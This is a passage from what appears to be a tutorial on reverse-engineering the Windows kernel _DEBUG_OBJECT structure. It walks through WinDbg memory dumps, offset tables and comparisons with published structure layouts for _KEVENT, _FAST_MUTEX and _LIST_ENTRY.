
This reveals that the _DEBUG_OBJECT is 0xd0 (208d) bytes large. To dump the raw bytes that occupy the entire memory space, we can use the following command:
lkd> dq ffff808f1162dae0 L1A
- Where:
dq: Dump-Quadword. Displays the memory as 64-bit (8-byte) hexadecimal values. Since pointer and header values are 8-bytes wide on x64 systems, this is essential.ffff808f1162dae0: The address of_DEBUG_OBJECT, the starting memory address we want to inspect.L1A: The length of the dump we want to analyze.L: Length1A: A hexadecimal value (26d) denoting the number of quad-words we want to dump.- Since the size of
_DEBUG_OBJECTis208d, divide that by 8 to reveal the number of quad-words needed to dump the entire object, then convert that number to hexadecimal,0x1a.
- Since the size of

_DEBUG_OBJECTData Dump
Let's reorganize this info so it is more useful:
Base = ffff808f1162dae0
Offset Value
-----------------------------------
+00 00000001`00060000
+08 ffff808f`1162dae8
+10 ffff808f`1162dae8
+18 00000000`00000001
+20 00000000`00000000
+28 00000000`00000002
+30 00000000`00060001
+38 ffff808f`1162db18
+40 ffff808f`1162db18
+48 00000000`00000000
+50 ffffac8a`d8823d50
+58 ffffac8a`d8823d50
+60 00000000`00000006
+68 00000000`00000000
+70 74696157`020d0000
+78 00000000`00000000
+80 000000c8`00000000
+88 00000000`00000000
+90 00000000`00000000
+98 00000000`00000000
+A0 00000000`00008001
+A8 00000000`00000001
+B0 00000000`00000000
+B8 00000000`00080030
+C0 fffff805`80c27d80
+C8 00000000`00000000
There are a few things to consider before we move forward. First, online sources show that security researchers have discerned different forms for the _DEBUG_OBJECT structure over time, with different versions of Windows. For instance, consider these three resources:
- OpenRCE: Kernel User-Mode Debugging - Published 2007
- Shh0ya Security Lab: Debugging Process - Published 2021
- hfiref0x: Kernel Driver Utility - Published 2025
I cannot guarantee the availability of any of these resources. If any of these links are dead, use an internet archive (i.e., archive.org) to try recovering the page.
While none of these resources are authoritative, they can be correlated to known security researchers with other published works, which can be analyzed to measure the reliablility of the work they produce. Each publication exists for a different reason, but each document contains some reversed version of the _DEBUG_OBJECT structure for some version of Windows, and they share certain elements in common. We can use these resources, and other similar sources, as guides for our own reversing process.
Second, the dt nt!_<STRUCTURE> <START_ADDRESS> command can be used to observe whether a given memory range could contain a particular structure. For instance, dt nt!_LIST_ENTRY ffffffff'fffffff0 could be used to determine if the 16-bytes (0x10) starting from ffffffff'fffffff0 COULD be a _LIST_ENTRY structure, but this is no guarantee. We can use the Vergilius Project to identify the size and attributes of relevant data structures.
Finally, certain data structures demonstrate particular behaviors in memory that stand out. For instance, consider the _LIST_ENTRY data structure:
//0x10 bytes (sizeof)
struct _LIST_ENTRY
{
struct _LIST_ENTRY* Flink; //0x0
struct _LIST_ENTRY* Blink; //0x8
};
A _LIST_ENTRY is a node in a doubly-linked list. If that list only contains a single node, the Forward Link (Flink) and Backward Link (Blink) will point to the memory address of the node itself. In a data dump, this will appear as a pointer, ffffffff'fffffff0 at the memory address it points to, ffffffff'fffffff0, followed by the same pointer value in the succeeding memory address, ffffffff'fffffff8.
Similarly, you can recognize potentially legible strings in a data dump, as the Hex ASCII values for A-Z are 0x41-0x5a and the Hex ASCII values for a-z are 0x61-0x7a. Consecutive bytes containing these values, likely ending with 0x00 bytes are potential strings. Also, look for LFCR (Line-Feed/Carriage-Return) characters (0x0a, 0x0d), and spaces (0x20). Remember to consider the endian-ness of the data when decoding strings.
Now, looking at the 3 resources identified previously, we can see that they share certain common elements. First and foremost, they each start with the following structure:
struct _DEBUG_OBJECT
{
_KEVENT EventPresent;
_FAST_MUTEX Mutex;
_LIST_ENTRY EventList;
[...trunc...]
}
This is good information, because it implies that across Windows versions, this part of the _DEBUG_OBJECT remains consistent across versions. Let's take a deeper look. Referencing the Vergilius Project, we can identify the following:
//0x18 bytes (sizeof)
struct _KEVENT
{
struct _DISPATCHER_HEADER Header; //0x0
};
//0x38 bytes (sizeof)
struct _FAST_MUTEX
{
LONG Count; //0x0
VOID* Owner; //0x8
ULONG Contention; //0x10
struct _KEVENT Event; //0x18
ULONG OldIrql; //0x30
};
If we include a _LIST_ENTRY following the _FAST_MUTEX structure, that is a total of 96 bytes (0x60). So let's consider the first 0x60 bytes of our data dump:
Base = ffff808f1162dae0
Offset Value
-----------------------------------
+00 00000001`00060000
+08 ffff808f`1162dae8
+10 ffff808f`1162dae8
+18 00000000`00000001
+20 00000000`00000000
+28 00000000`00000002
+30 00000000`00060001
+38 ffff808f`1162db18
+40 ffff808f`1162db18
+48 00000000`00000000
+50 ffffac8a`d8823d50
+58 ffffac8a`d8823d50
According to our prediction, first 0x10 bytes should make up a _KEVENT object